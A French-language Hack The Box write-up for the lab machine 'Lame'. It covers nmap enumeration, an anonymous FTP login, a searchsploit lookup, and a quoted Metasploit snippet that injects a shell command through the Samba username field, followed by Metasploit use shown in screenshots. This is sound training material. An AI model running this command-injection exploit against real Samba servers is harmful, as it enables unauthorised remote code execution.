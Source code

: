# Lame

COmme d'ahabitude, on commence par ping la boxe et faire un nmap :

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-21 10:21 EDT
Nmap scan report for 10.10.10.3
Host is up (0.024s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-07-21T10:23:28-04:00
|_clock-skew: mean: 2h01m19s, deviation: 2h49m43s, median: 1m18s
```
Nous avons :

- un service ftp via vsftpd 2.3.4
- deux ports samba 3.0.20
- un service ssh via Openssh OpenSSH 4.7p


ftp est le protocole de transfert de fichier, tandis que ssh est le secure shell (ie, ce avec quoi on peut utiliser pour se connecter àa la machine), et samba est un protocole qui permet une interopérabilité entre windows et linux.

Avant de chercher des vulnérabilités, je vaus essayer de me connecter au serveur ftp, car je sais qu'on peut laisser les "anon" se connecter.

"anon" n'est pas le nouveau groupe de grey hat qui font peur aux 200, mais le gentil nom donné aux personnes qui se connectent de façon anonyme (sna sle user + mdp set pour le serveur ftp).

Essayons ! 

```sh
ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:kali): anonymous
331 Please specify the password.
Password: // anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
Hem.

Regardons donc ce qu'il y a dedans :

```
ftp> ls
229 Entering Extended Passive Mode (|||23130|).
150 Here comes the directory listing.
226 Directory send OK.
```

Il n'y a rien, en tout cas rien que nous pouvons apriori exploiter.

Passons donc aux vulénrabilités.

En regardant cherchant avec searchsploit, on voit que cette version semble vulnérable à une backdoor command execution.

Seulement, cet exploit ne semble pas fonctionner sur cette version, pour une raison ou pour une autre (la version, ou un port non ouvert ?, non persistence du revshell).

Par contre, en faisant la même recherche avec la version de samba, on tombe sur plusieurs vulnérabilités :

```sh
xploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                                                                                                                                    | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                                                                                                          | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                                                                                                                     | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                                                                                                             | linux_x86/dos/36741.py
```

Celle qui va nous intéresser est la deuxième de la liste (les trois autres n'ayant pas d'intérêt dans le cadre de ce pentest).

Si on regarde comment l'exploit est écrit sur metasploit :

```ruby

	def exploit

		connect

		# lol?
		username = "/=`nohup " + payload.encoded + "`"
		begin
			simple.client.negotiate(false)
			simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
		rescue ::Timeout::Error, XCEPT::LoginError
			# nothing, it either worked or it didn't ;)
		end

		handler
	end
  ```
  
  On se rend compte qu'il s'agit de faire persister un rev shell via la command "nohup". Ce qui est entre les backticks, à l'instar de ce qui est entre "$()" est exécuté par une sorte de shell secondaire.
  
  La commande nohup est là pour faire persister ce processus jusqu'à ce qu'il se termine en bloquant le signal SIGHUP qui sinon mettrait un terme au dit processus.
  
Il existe aussi des versions python de cet exploit.

Mais il faut installer des modules dont je n'aurais apriori pas l'utilité de si tôt alors, une fois n'est pas coutume, après avoir bien saisi cet exploit, utilisons metasploit.

C'est extrêmement simple, et visualisable en deux images :

![lame1](https://github.com/0xbatche/HTB/blob/fac15d0943a2451e702c0ca2f3c02a0b420cdd0d/boxes/imgs/lame1.PNG)
![lame2](https://github.com/0xbatche/HTB/blob/fac15d0943a2451e702c0ca2f3c02a0b420cdd0d/boxes/imgs/lame2.PNG)

Et voilà !

## Conclusion :

Une boxe sympa qui permet de découvrir les bases d'un pentest. Si par rapport à d'autres easy box (notamment les dernières à l'heure où j'écris, RedPanda et Opensource) elle est d'un abord extrêmement simple, il reste que pour débuter c'est un très bon exercice.





  
  


